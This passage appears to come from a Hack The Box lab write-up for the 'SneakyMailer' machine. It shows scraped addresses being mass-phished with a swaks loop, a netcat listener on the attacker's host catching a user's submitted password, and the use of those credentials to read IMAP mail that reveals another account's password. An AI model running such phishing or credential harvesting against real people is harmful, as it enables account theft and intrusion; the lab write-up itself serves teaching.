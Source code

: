 When browsing the website we notice a list of email addresses. We copy them to a
file an use `cut -f 4` to get a proper list with the email only.

Nothing else on the website seems of interest.

## Phishing

As the port 25 is open, we can send email to the server.
Our phishing email will contain a simple
link to our machine `http://10.10.14.11:8080/test`:

    :::text
    Hey try that:

    http://10.10.14.11:8000/test

    HF

We use [swaks](https://github.com/jetmore/swaks)
in order to automatically send our phishing email:

    while read l; do swaks --to $l --server 10.10.10.197 --body email; done <emails

We run a `netcat` listener on port 8080 in order to see the incoming requests and
got some POST request containing a username and a password.

    :::text
    nc -l -p 8000
    POST /test%0D HTTP/1.1
    Host: 10.10.14.11:8000
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded

    firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

## Evolution

It took me quit a long time to understand what these credentials where for. But
as the IMAP port is open we can connect to it with a mail client. We launch
evolution (already installed on Kali Linux) and configure it with the previous
information (note that the user is `paulbyrd`).

We found two emails in the `sent` directory. The first on contain a password for
the `developer` account.

> Hello administrator, I want to change this password for the developer account
>
> Username: developer
> Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
>
> Please notify me when you do it
